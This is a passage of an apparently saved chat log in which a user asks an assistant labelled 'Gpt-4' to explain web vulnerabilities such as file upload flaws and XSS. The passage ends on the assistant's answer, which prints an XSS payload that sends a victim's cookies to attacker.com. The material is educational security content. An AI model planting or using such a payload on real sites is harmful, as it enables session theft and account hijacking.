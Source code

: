 File Upload vulnerabilities occur when an application allows unauthorized or unvalidated file uploads, potentially leading to unauthorized access to sensitive data, remote code execution, or other attacks.

To find File Upload vulnerabilities, look for areas where file uploads are accepted without proper validation, file type restrictions, or access controls. To prevent File Upload vulnerabilities, sanitize and validate user input, implement secure file upload practices, and use proper access controls.

#### 14\. Server-Side XSS

Server-Side XSS is a variant of Cross-Site Scripting (XSS) where the malicious payload is stored and executed on the server-side, rather than being reflected in the client-side application.

To find Server-Side XSS vulnerabilities, look for areas where user input is stored on the server and later rendered back to users without proper sanitization. To prevent Server-Side XSS attacks, sanitize and validate user input, use secure coding practices, and implement Content Security Policy (CSP) headers.

**Sources:**
LFI RFI Http parameter pollution command injection open redirect XML external entity File upload server side XSS vulnerability beginners guide
- [(0) Local File Inclusion: Understanding and Preventing Attacks](https://brightsec.com/blog/local-file-inclusion-lfi/)
- [(1) A Pentester’s Guide to File Inclusion | Cobalt](https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion)
- [(2) File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [(3) What is RFI | Remote File Inclusion Example & Mitigation Methods ...](https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/)
- [(4) File Inclusion Vulnerabilities: LFI & RFI | Spanning Backup](https://spanning.com/blog/file-inclusion-vulnerabilities-lfi-rfi-web-based-application-security-part-9/)


___
**You:**
Give 2 to 3 more detailed examples of 5 of the most common of these 14 vulnerabilities and give an in-depth analysis and explanation for each of them....

___
**Gpt-4 answer:**
### Detailed Examples and Analysis of 5 Common Vulnerabilities

#### 1\. Cross-Site Scripting (XSS)

**Example 1**: In Advantech WebAccess versions prior to 8.1, a vulnerability allowed remote injection of arbitrary web scripts or HTML through authenticated users. As a result, attackers could obtain sensitive information [ptsecurity.com](https://www.ptsecurity.com/ww-en/analytics/knowledge-base/what-is-a-cross-site-scripting-xss-attack/).

Payload:

```xml
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>
```
